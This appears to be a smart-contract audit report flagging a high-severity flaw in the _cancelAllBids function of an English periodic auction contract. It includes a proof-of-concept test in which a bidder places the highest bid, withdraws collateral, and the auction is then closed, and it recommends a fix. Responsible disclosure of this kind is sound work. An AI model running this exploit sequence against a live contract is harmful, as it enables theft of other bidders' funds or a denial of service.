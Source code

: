 Early Pineapple Lizard

high

# _cancelAllBids does not check if the current bidder is the highest bid bidder

## Summary

The function _cancelAllBids does not check if the current bidder is the highest bid bidder. A malicious user can place a very high bid and then withdraw their collateral. This leads to various problems.

## Vulnerability Detail

1) Other users will be demotivated to bid further.
2) If this bid remains the highest bid at the end of the period and there is enough collateral deposited by other users, the malicious user can successfully complete the purchase at the expense of other users.
3) If there is not enough collateral from other users and fees are set, _closeAuction will revert every time, which means a permanent Dos on the contract.
4) If there is not enough collateral from other users and no fees are set, the malicious user will successfully win the auction.

<details>
<summary>POC</summary>

```solidity
it('attack', async function () {
      // Auction start: Now - 200
      // Auction end: Now + 100
      const instance = await getInstance({
        auctionLengthSeconds: 300,
        initialPeriodStartTime: (await time.latest()) - 200,
        licensePeriod: 1000,
      });

      const bidAmount1 = ethers.utils.parseEther('1.1');
      const feeAmount1 = await instance.calculateFeeFromBid(bidAmount1);
      const collateralAmount1 = feeAmount1.add(bidAmount1);

      const bidAmount2 = ethers.utils.parseEther('1.2');
      const feeAmount2 = await instance.calculateFeeFromBid(bidAmount2);
      const collateralAmount2 = feeAmount2.add(bidAmount2);

      await instance
        .connect(bidder1)
        .placeBid(0, bidAmount1, { value: collateralAmount1 });

      await instance
        .connect(bidder2)
        .placeBid(0, bidAmount2, { value: collateralAmount2 });

        const bidAmount3 = ethers.utils.parseEther('2');
        const feeAmount3 = await instance.calculateFeeFromBid(bidAmount3);
        const collateralAmount3 = feeAmount3.add(bidAmount3);
  
        await instance
          .connect(bidder3)
          .placeBid(0, bidAmount3, { value: collateralAmount3 });
  
        await instance
          .connect(bidder3)
          .cancelAllBidsAndWithdrawCollateral(0);
  
        await time.increase(99);
  
        await instance.connect(bidder1).closeAuction(0);
    });
```

</details>

## Impact

Loss of funds or denial of service.

## Code Snippet

https://github.com/sherlock-audit/2024-02-radicalxchange/blob/main/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L416-L434

## Tool used

Manual Review

## Recommendation

Check if bidder is the highest bidder like you do in the function _cancelBid().
